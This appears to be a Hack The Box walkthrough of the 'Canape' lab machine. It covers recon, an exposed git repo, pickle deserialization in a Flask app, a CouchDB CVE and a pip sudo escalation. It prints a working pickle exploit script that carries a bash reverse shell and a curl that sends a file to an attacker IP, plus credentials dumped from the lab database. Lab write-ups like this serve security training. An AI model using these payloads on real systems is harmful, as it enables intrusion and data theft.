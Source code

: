 ```yaml
---
layout: post
title: HTB - Canape
date: 2024-12-23 11:38 -0400
---
```


{% raw %}

Canape is one of the most popular boxes on htb. The first step involves finding the source code through a git repo. After that we exploit a pickle deserialization to get a shell as `www-data`. Then we use one of the couchdb CVEs to escalate to the `homer` user. And finally we use sudo privileges on pip to get the `root` shell.

# nmap
Starting with nmap we get a `.git`.
```bash
~/workspace/projects/htb/canape » nmap -p- --min-rate 1024 $(cat ip.txt)
Starting Nmap 7.93 ( https://nmap.org ) at 2024-12-23 12:58 -04
Stats: 0:00:32 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 25.55% done; ETC: 13:00 (0:01:33 remaining)
Nmap scan report for 10.10.10.70
Host is up (0.16s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
65535/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 128.50 seconds
~/workspace/projects/htb/canape » nmap -p 80,65535 -A --min-rate 1024 $(cat ip.txt)           1 ↵ shafou@shafou
Starting Nmap 7.93 ( https://nmap.org ) at 2024-12-23 13:00 -04
Nmap scan report for canape.htb (10.10.10.70)
Host is up (0.20s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Simpsons Fan Site
|_http-trane-info: Problem with XML parsing of /evox/about
| http-git:
|   10.10.10.70:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Last commit message: final # Please enter the commit message for your changes. Li...
|     Remotes:
|_      http://git.canape.htb/simpsons.git
|_http-server-header: Apache/2.4.29 (Ubuntu)
65535/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8d820b3190e4c885b2538ba17c3b65e1 (RSA)
|   256 22fc6ec35500850f24bff5796c928b68 (ECDSA)
|_  256 0d912751805e2ba3810de9d85c9b7735 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.93 seconds
```

# flask app
On the git repo there is a flask app which is vulnerable to pickle deserialization.
```python
@app.route("/submit", methods=["GET", "POST"])
def submit():
    error = None
    success = None

    if request.method == "POST":
        try:
            char = request.form["character"]
            quote = request.form["quote"]
            if not char or not quote:
                error = True
            elif not any(c.lower() in char.lower() for c in WHITELIST):
                error = True
            else:
                # TODO - Pickle into dictionary instead, `check` is ready
                p_id = md5(char + quote).hexdigest()
                outfile = open("/tmp/" + p_id + ".p", "wb")
		outfile.write(char + quote)
		outfile.close()
	        success = True
        except Exception as ex:
            error = True

    return render_template("submit.html", error=error, success=success)

@app.route("/check", methods=["POST"])
def check():
    path = "/tmp/" + request.form["id"] + ".p"
    data = open(path, "rb").read()

    if "p1" in data:
        item = cPickle.loads(data)
    else:
        item = data

    return "Still reviewing: " + item
```

This part can be tricky. But it's pretty easy if you use the `pickleassem` package. I got stuck here because I didn't realize that the character name could be anywhere on the payload.

- exploit:

```python
import requests
from hashlib import md5

from pickleassem import PickleAssembler

pa = PickleAssembler(proto=1)
pa.push_mark()
pa.util_push("bash -c 'bash -i >& /dev/tcp/10.10.14.41/4444 0>&1'; curl http://10.10.14.41:5000/ -d @/tmp/123; echo moe")
pa.build_inst('os', 'system')
pa.push_binstring('p1')
payload = pa.assemble()

burp0_url = "http://canape.htb:80/submit"

char = payload[:-1].decode()
quote = "."
burp0_data = {"character": char, "quote": quote}
res = requests.post(burp0_url, data=burp0_data, proxies={
    'http': 'http://0.0.0.0:8080',
    'https': 'https://0.0.0.0:8080'
})
a = md5((char + quote).encode()).hexdigest()
print(f"DEBUGPRINT[3]: req.py:12: a={a}")

burp0_url = "http://canape.htb:80/check"
burp0_data = {"id": a}
res = requests.post(burp0_url, data=burp0_data)
print(f"DEBUGPRINT[4]: req.py:17: res.text={res.text}")
```

# www-data -> homer
Some interesting files here but they don't lead anywhere.
The most interesting part is couchdb on 127.0.0.1:5986
```json
{"couchdb":"Welcome","uuid":"132586dfde75b957085d59a5096e9c20","version":"2.0.0","vendor":{"name":"The Apache Software Foundation"}}
```

This version seems to be vulnerable to multiple cves. The one that worked was `CVE-2017-12636`. It gives us an admin user. We can then check the `passwords` db and find the ssh password for the `homer` user.
```bash
DEBUGPRINT[2]: lab.py:29: res.text={"_id":"739c5ebdf3f7a001bebb8fc4380019e4","_rev":"2-81cf17b971d9229c54be92eeee723296","item":"ssh","password":"B4jyA0xtytZi7esBNGp","user":""}
DEBUGPRINT[2]: lab.py:29: res.text={"_id":"739c5ebdf3f7a001bebb8fc43800368d","_rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e","item":"couchdb","password":"r3lax0Nth3C0UCH","user":"couchy"}
DEBUGPRINT[2]: lab.py:29: res.text={"_id":"739c5ebdf3f7a001bebb8fc438003e5f","_rev":"1-77cd0af093b96943ecb42c2e5358fe61","item":"simpsonsfanclub.com","password":"h02ddjdj2k2k2","user":"homer"}
DEBUGPRINT[2]: lab.py:29: res.text={"_id":"739c5ebdf3f7a001bebb8fc438004738","_rev":"1-49a20010e64044ee7571b8c1b902cf8c","user":"homerj0121","item":"github","password":"STOP STORING YOUR PASSWORDS HERE -Admin"}
```

# homer -> root
```bash
homer@canape:~$ cat user.txt
9a3d7***************************
```

Running `sudo -l` on homer shows that we can run `pip` as root. 
```bash
Matching Defaults entries for homer on canape:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User homer may run the following commands on canape:
    (root) /usr/bin/pip install *
```
Found this repo that has a poc for running code on pip install and adapted a little bit.
- [0wned](https://github.com/mschwager/0wned)

```bash
# sudo /usr/bin/pip install ./0wned
homer@canape:/tmp/la$ cat root.txt
d8bf7***************************
```

{% endraw %}
